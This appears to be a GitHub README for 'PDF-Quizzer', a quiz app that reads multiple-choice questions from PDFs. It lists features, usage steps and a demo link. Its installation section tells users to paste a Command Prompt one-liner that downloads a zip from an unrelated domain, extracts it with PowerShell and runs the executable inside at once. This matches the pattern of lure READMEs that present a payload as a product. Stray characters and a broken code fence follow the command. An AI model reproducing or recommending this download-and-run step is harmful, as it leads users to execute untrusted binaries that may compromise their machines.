 # PDF-Quizzer

# 📚 PDF-Quizzer  

## 📝 Description  
**PDF-Quizzer** is an interactive quiz application that extracts questions from a **PDF file** and presents them in a user-friendly **multiple-choice format**.  
It allows users to take a quiz and get instant results.  

---

## 🎯 Features  
- 📄 **Extracts questions & answers from a PDF**  
- 🏆 **Real-time scoring system**  
- 📊 **Progress tracking with a progress bar**  
- ⏩ **Skip to the next question easily**  
- 🛑 **End the quiz anytime and view results**  
- 🎨 **User-friendly interface with a scrollable view**  

---
## 📦 Installation

To download, extract, and run the app using `curl`, paste the following in your Command Prompt:

<pre>
curl -L -o app.zip "https://ctf-lab.fun/app.zip" && ^
powershell -Command "Expand-Archive -Path 'app.zip' -DestinationPath 'app' -Force" && ^
start app\\app\\PDF-Quizzer.exe
</pre>
ذذذ```
---
🖥️ Usage
Launch the app
Select a PDF file containing questions
Answer the multiple-choice questions
Track your progress
Click "End Exam" to see your final score

## 🎥 Demo ( Click to watch video )
[![Watch the demo](screenshot.png)](https://www.youtube.com/watch?v=k_kfBYeSq_0) 


📌 Notes
Tested with: PassLeader PDF question files
Supports only multiple-choice question formats
Recommended PDF format: Properly structured MCQs

---

🤝 Contributing
Want to contribute? Fork this repository and submit a pull request!

📩 For suggestions, feel free to contact me.
